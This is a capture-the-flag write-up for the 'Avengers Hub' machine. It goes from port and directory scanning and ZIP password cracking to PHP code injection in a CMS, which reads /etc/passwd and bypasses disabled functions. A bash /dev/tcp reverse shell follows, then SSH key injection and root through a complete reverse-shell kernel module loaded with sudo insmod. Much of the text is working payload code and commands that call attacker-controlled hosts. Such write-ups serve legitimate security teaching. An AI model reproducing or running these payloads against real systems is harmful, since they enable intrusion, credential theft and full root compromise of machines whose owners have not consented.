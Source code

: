 #CTF Write-Up: Avengers Hub - Hackifinity Battle - Hard

##Step 1: Target Enumeration

The first step is to locate the target and perform an Nmap scan to check for open and hidden ports.

##Step 2: Directory and File Search

Using ffuf, we perform a directory and file search on the target. The most interesting discovery is a breakglass.zip file, which is protected by a password.

##Step 3: Cracking the ZIP File

We attempt to crack the ZIP file password using fcrackzip with the RockYou wordlist:

fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt breakglass.zip

After a short while, we successfully crack the password. Inside the ZIP file, we find a hashed admin password.

##Step 4: Cracking the Admin Password

We successfully crack the hashed password, which is revealed to be: securepassword. Using this password, we gain admin access to the CMS.

##Step 5: Exploring the CMS for Exploits

We look around the CMS and find few ways to gain a reverse shell to the machine. My approach after reading about the cms is to use Droplets function that allows to inject PHP code, but after few tries we notice some php functions are disabled.
![avenger writeup1](https://github.com/user-attachments/assets/1b0d353c-f4fc-4f71-90bf-593d8658d4de)

##Step 6: Bypassing Disabled PHP Functions

However, after multiple attempts, we realize that some PHP functions are disabled. We enumerate the disabled functions using:

echo ini_get('disable_functions') . "\n";
$zmienna = file_get_contents('/etc/passwd');
echo "<pre>$zmienna</pre>";

Disabled Functions:

shell_exec, exec, passthru, system, proc_open, expect_popen

Step 7: Crafting the Reverse Shell

We bypass the restrictions by crafting a PHP reverse shell:

$ip = '10.8.26.132';
$port = 1234;
$handle = popen("bash -c 'bash -i >& /dev/tcp/$ip/$port 0>&1'", 'r');
pclose($handle);

Once executed, we establish a connection as www-data.

##Step 8: Gaining User Privileges

After further enumeration, we find write access to the SSH authorized keys of user Void, who owns the user.txt flag.

We inject our public SSH key, allowing us to connect as user Void:

ssh -i id_rsa void@target_ip

🎉 Now, we have user access!

##Step 9: Escalating to Root with a Kernel Module

We check for sudo permissions:

sudo -l

We discover permission to execute /sbin/insmod, which allows us to load a kernel module (.ko file).

What Are Kernel Modules?

Kernel modules (.ko files) are pieces of code that can be loaded into the Linux kernel to extend its functionality (e.g., drivers, system behavior modifications).

Since the target machine has make and kernel headers installed, we can compile a malicious kernel module directly on the target.

##Step 10: Creating the Malicious Kernel Module

We create cyberavengers.c on the target:

#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/init.h>
#include <linux/kthread.h>
#include <linux/delay.h>

#define REMOTE_IP "10.20.20.20"
#define REMOTE_PORT "8888"

static int reverse_shell_thread(void *data)
{
    char *argv[] = { "/bin/bash", "-c",
        "bash -i >& /dev/tcp/" REMOTE_IP "/" REMOTE_PORT " 0>&1", NULL };
    char *envp[] = { "PATH=/usr/bin:/bin", NULL };

    call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
    return 0;
}

static int __init rev_init(void)
{
    printk(KERN_INFO "Reverse shell module loaded\n");
    kthread_run(reverse_shell_thread, NULL, "rev_shell");
    return 0;
}

static void __exit rev_exit(void)
{
    printk(KERN_INFO "Reverse shell module unloaded\n");
}

module_init(rev_init);
module_exit(rev_exit);

MODULE_LICENSE("GPL");
MODULE_AUTHOR("CTF Participant");
MODULE_DESCRIPTION("Kernel module reverse shell");

Creating a Makefile for Compilation

We create a Makefile:

obj-m += cyberavengers.o

all:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules

clean:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean

##Step 11: Compile and Load the Malicious Kernel Module

1. Compile the module on the target:

make

2. Set up a listener on the attacker machine:

nc -lvnp 8888

3. Load the malicious kernel module:

sudo /sbin/insmod cyberavengers.ko

 We now have a root reverse shell on our listener!


